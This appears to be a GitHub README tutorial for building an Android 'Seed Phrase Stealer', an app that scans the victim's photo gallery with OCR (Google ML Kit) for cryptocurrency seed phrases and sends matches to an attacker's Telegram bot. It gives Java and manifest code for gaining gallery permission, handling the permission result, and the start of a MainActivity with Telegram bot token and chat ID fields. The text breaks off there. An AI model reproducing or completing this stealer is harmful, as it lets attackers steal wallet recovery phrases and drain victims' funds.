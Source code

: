 ### Android - Seed Phrase Stealer
<img align="left" src="https://github.com/user-attachments/assets/fa2ffcd4-f0bf-4fdc-a312-bc0c41f2d283" width="550" height="500">
Stealer automatically searches for seed phrases in the gallery and is able to find other important data using patterns and keywords. We will use the Google ML Kit library, a powerful and effective tool that will recognize text in images and convert it into a text view that is understandable for analysis.

We will write in Java (A), without the server part, since the log will come directly to Telegram using bot token and user id.

##### 1. Permissions:
First, we need to access the gallery where the seed phrases will be searched. To do this, add to AndroidManifest.xml required permission:
```
<uses-permission android:name="android.permission.READ_MEDIA_IMAGES" />
```
##### 2. Request permission from the user in MainActivity.java:
```
if (ContextCompat.checkSelfPermission(this, Manifest.permission.READ_MEDIA_IMAGES) != PackageManager.PERMISSION_GRANTED) {
    ActivityCompat.requestPermissions(this, new String[]{Manifest.permission.READ_MEDIA_IMAGES}, REQUEST_PERMISSION_CODE);
} else {
    scanGalleryForImages();
}
```
##### 3. Processing the result of the request:
```
@Override
public void onRequestPermissionsResult(int requestCode, @NonNull String[] permissions, @NonNull int[] grantResults) {
    super.onRequestPermissionsResult(requestCode, permissions, grantResults);
    if (requestCode == REQUEST_PERMISSION_CODE) {
        if (grantResults.length > 0 && grantResults[0] == PackageManager.PERMISSION_GRANTED) {
            scanGalleryForImages();
        } else {
            Log.e("Permissions", "Access to images is denied");
        }
    }
}
```
I want to emphasize that this method works on newer versions of Android 13, 14. If you want to use the code on older versions (Android 12 and below), then you will need a different permission:
```
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
```
The query logic will remain the same, but with the changed logic of working with images. We will not focus on older versions of Android, but it is worth mentioning for those who will test on Android 12 and below.

##### 4.The main code MainActivity.java:
```
public class MainActivity extends AppCompatActivity {

    private Map<String, String> topicIdMap = new HashMap<>();
    private static final int REQUEST_PERMISSION_CODE = 101;

    private static final String BOT_TOKEN = ""; // Telegram Bot Token
    private static final String CHAT_ID = ""; // ID user Telegram
    private int keywordCount = 10; // How many words from the seed phrases dictionary should match
    private Set<String> keywords = new HashSet<>();
    private int speedMs = 0; // Delay before checking the next image
```